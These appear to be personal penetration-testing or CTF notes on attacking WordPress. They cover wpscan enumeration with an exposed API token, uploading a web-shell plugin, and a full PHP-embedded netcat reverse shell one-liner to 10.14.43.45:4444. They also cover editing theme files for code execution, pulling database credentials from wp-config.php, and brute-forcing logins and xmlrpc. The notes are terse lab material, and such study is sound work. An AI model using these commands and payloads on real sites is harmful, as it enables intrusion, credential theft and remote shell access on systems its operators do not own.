


Wordpress
how wordpress works :
- wordpress is a CMS (content management system),it's free with limited options :
- no domain name
- can't upload plugins
- can't monetize with ads ...
- solution : self hosted + using wordpress.org
Wordpress exploits common
- wordpress version
- e.g <5.2.3 viewing unauthenticated
- e.g 5.6.2
- Authenticated XXE Within the Media Library Affecting PHP 8
- a post exploit
WPSCAN commands
- wpscan --url $url --enumerate ap,at,cb,dbe |tee wpscan.log
- wpscan --url $url --enumerate p --plugins-
detection aggressive -o websrv1/wpscan
- // cb = config backups
- dbe = db exports
- // after we find plugins we search via searchsploit
with token aggressive - wpscan --url $url --plugins-detection mixed -e ap,at --api-token uGTjp6qQgK2AwCZ7ZAhQycXQJCxrklonUgFnFjI51S4 -o wpscan-aggressive.log
- // api token to be changed
- more throough
Wordpress post exploit
- u got admin access creds
- method #01
- install reverse shell plugins
- /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php
- compress in a zip file and note name of the file
- sudo zip plugin-shell.zip plugin-shell.php
- install now
- /wp-content/plugins/plugin-shell/plugin-shell.php
Get shell (encode parmas)method 02: update previuous polugin- prefix any instalkled plugin with <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.43.45 4444 >/tmp/f'); ?
- /wp-admin/plugin-editor.php
- activate the plugin
method #02 (after RCE)- extract database creds from config file
- /var/www/html/wp-config.php
method 03- method 3 add file to theme 404
- apperance => theme file editor => edit 404
- $url/wp-content/themes/twentytwelve/404.php
wordpress hashes cracking
Wordpress XMLRPC
- xmlrpc.php is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress REST API.
- if active you can DOS users or launch a bruteforce attack
- check if active POST /xmlrpc.php
WPSCAN bruteforce users
- wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
WOrdpress privilege escalation
- searchsploit wordpress privilege escalation